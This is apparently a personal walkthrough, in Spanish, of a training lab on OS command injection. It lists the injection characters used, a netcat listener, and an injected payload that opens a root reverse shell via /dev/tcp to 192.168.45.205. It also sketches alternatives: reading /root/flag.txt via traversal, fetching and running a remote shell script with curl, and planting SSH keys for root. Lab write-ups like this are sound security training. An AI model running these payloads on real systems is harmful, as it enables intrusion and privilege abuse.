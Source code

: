 # Walk: Laboratorio 3 de 4 OS Command injection - capstone 1

## Fecha: 22/01/2025
## Host: Ubuntu
## IP: {IP}

---

## Objetivo
Capstone Lab: Start the Future Factor Authentication application on VM #3. 
Identify the vulnerability, exploit it and obtain a **reverse shell**. 
Use **sudo su** in the reverse shell to obtain elevated privileges and find the flag located in the **/root/** directory.

---
## Herramientas
1. nc
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: Explorar distintos caracteres:
	- Los caracteres correctos son: ** | $(command)**
2. Paso 2: Obtener el reverse shell:
	- **nc -lnvp 4444**
	- Ejecutamos el reverse shell desde el input vulnerable:
	- **some + string | $(sudo bash -c "bash -i >& /dev/tcp/192.168.45.205/4444 0>&1")**
	- Resultado positivo: obtenemos el reverse shell directamente como usuario root
3. Paso 3: Obtenemos el flag
	- ** cat /root/flag.txt **
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Directory Traversal:** Explorar Directory Traversal en el input vulnerable: some + str **| $(sudo cat ../../../../../../../../root/flag.txt)**
- [ ] **RFI:** Explorar:  some + string ** | $(sudo curl http://192.168.45.205:80/rfi-shell.sh -o /tmp/rfi-shell.sh && sudo bash /tmp/rfi-shel.sh)**
- [ ] **ssh** Explorar: **ssh-keygen** Subir al directorio .ssh del usuario root la authenticated_key y conectarse pos ssh.

